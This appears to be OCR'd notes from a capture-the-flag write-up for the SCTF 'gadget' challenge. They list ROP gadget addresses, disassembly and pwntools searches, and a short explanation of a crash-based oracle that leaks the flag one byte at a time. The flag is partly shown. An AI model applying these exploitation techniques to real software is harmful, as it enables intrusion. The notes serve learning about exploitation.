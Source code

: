 ```python
0x000000000040117b : pop rcx ; ret
0x0000000000401734 : pop rdi ; pop rbp ; ret
0x0000000000401732 : pop rsi ; pop r15 ; pop rbp ; ret
0x000000000040288e : pop rsp ; pop r13 ; pop r14 ; pop r15 ; pop rbp ; ret
0x0000000000401730 : pop rsp ; pop r14 ; pop r15 ; pop rbp ; ret
0x0000000000401002 : ret


.text:00000000004011BE                 mov     bl, [rsi+rax]
.text:00000000004011C1                 mov     rdi, rbx
.text:00000000004011C4                 push    r14
.text:00000000004011C6                 retn



0x4011f3 <main+35>:	int    0x80
0x4011f5 <main+37>:	ret    


0x402c07 <libc_start_main_stage2+32>:	mov    rdx,r12
0x402c0a <libc_start_main_stage2+35>:	call   r14


0x00000000004011ed : retf

0x0000000000403beb : mov qword ptr [rdi + rdx - 0x27], rax ; mov rax, rdi ; ret

>>> from pwn import *
>>> elf = ELF("./gadget")
>>> print("".join(hex(_)+"\n" for _ in elf.search(asm("int 0x80",arch="i386"))))
0x4011f3

0x0000000000408865: syscall; ret; 


>>> asm("int 0x80",arch='i386')
# '\xcd\x80'

[+] testing 4 flag => SCTF{woww0w_y0u_1s_g4dget_m4

'''
```

原理 如此

```Bash
Gadget 1:
.text:00000000004011BE                 mov     bl, [rsi+rax]
.text:00000000004011C1                 mov     rdi, rbx
.text:00000000004011C4                 push    r14
.text:00000000004011C6                 retn
rdi = rbx = rsi[rax] = flag[rax] = flag[index]

Gadget 2:
mov qword ptr [rdi + rdx - 0x27], rax ; mov rax, rdi ; ret


rdi + rdx -0x27
= rdi + border - offset
= rdi-offset+border
= (flag[index]-offset) + border

flag[index]-offset >= 0  => panic
flag[index]-offset  < 0  => go on
```